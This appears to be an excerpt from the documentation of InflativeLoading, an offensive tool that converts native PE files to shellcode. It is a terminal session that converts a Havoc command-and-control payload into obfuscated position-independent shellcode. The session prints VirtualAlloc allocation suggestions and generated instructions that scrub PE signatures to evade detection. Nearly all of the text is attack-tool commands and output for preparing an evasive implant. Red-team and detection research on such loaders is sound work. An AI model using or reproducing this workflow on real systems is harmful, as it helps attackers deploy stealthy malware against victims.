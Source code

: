 Havoc stageless EXE payload works well with obfuscation:

```powershell
PS C:\Users\Administrator\Desktop\dev\inflativeloading> .\DumpPEFromMemory.exe .\havoc.exe havoc.bin
[+] The file is an EXE file
[+] Process PID: 26772
[+] PEB Address:000000E87CB1D000
[+] Image Base Address:00007FF7BB8A0000
[+] e_lfanew is 0x80
[+] Size Of The Image : 0x1e000
[+] Size Of Optional Header : 0xf0
[+] Size Of text Section : 0x18000
[+] Size of other sections of mapped .\havoc.exe is 0x5000

[!] Suggested memory allocations, please adjust accordingly with other memory allocation APIs and languages

// Allocate memory with RX permission for shellcode stub
LPVOID buffer = VirtualAlloc(NULL, 0x1000, 0x3000, 0x20);
// Allocate memory with RW permission for PE Header
VirtualAlloc(buffer + 0x1000, 0x1000, 0x3000, 0x04);
// Allocate memory with RX permission for text section
VirtualAlloc(buffer + 0x2000, 0x18000, 0x3000, 0x20);
// Allocate memory with RW permission for other sections
VirtualAlloc(buffer + 0x2000 + 0x18000, 0x5000, 0x3000, 0x20);

[+] 3 iterations are needed

[+] Data successfully written to havoc.bin. Total bytes read: 0x1e000
PS C:\Users\Administrator\Desktop\dev\inflativeloading> python .\InflativeLoading.py -f .\havoc.bin -e true -o true -b havocsc.bin

██╗███╗   ██╗███████╗██╗      █████╗ ████████╗██╗██╗   ██╗███████╗
██║████╗  ██║██╔════╝██║     ██╔══██╗╚══██╔══╝██║██║   ██║██╔════╝
██║██╔██╗ ██║█████╗  ██║     ███████║   ██║   ██║██║   ██║█████╗
██║██║╚██╗██║██╔══╝  ██║     ██╔══██║   ██║   ██║╚██╗ ██╔╝██╔══╝
██║██║ ╚████║██║     ███████╗██║  ██║   ██║   ██║ ╚████╔╝ ███████╗
╚═╝╚═╝  ╚═══╝╚═╝     ╚══════╝╚═╝  ╚═╝   ╚═╝   ╚═╝  ╚═══╝  ╚══════╝

    ██╗      ██████╗  █████╗ ██████╗ ██╗███╗   ██╗ ██████╗
    ██║     ██╔═══██╗██╔══██╗██╔══██╗██║████╗  ██║██╔════╝
    ██║     ██║   ██║███████║██║  ██║██║██╔██╗ ██║██║  ███╗
    ██║     ██║   ██║██╔══██║██║  ██║██║██║╚██╗██║██║   ██║
    ███████╗╚██████╔╝██║  ██║██████╔╝██║██║ ╚████║╚██████╔╝
    ╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═════╝ ╚═╝╚═╝  ╚═══╝ ╚═════╝

Author: Senzee
Github Repository: https://github.com/senzee1984/InflativeLoading
Twitter: senzee@1984
Website: https://winslow1984.com
Description: Dynamically convert a native PE to PIC shellcode
Attention: Bugs are expected, more support and improvements are coming!



[!] The offset to NT header is 0x80
[!] Depending on the program, obfuscation may not be compatible with it. Make sure you know how does the program work!
[!] Dynamically generated instructions to obfuscate remained PE signatures:
    mov dword ptr [rbx+0x3c], 0x29f7945;
    mov dword ptr [rbx+0xa8], 0x99924859;
    mov dword ptr [rbx+0xb0], 0x99924859;
    mov dword ptr [rbx+0xb4], 0x1203885a;
```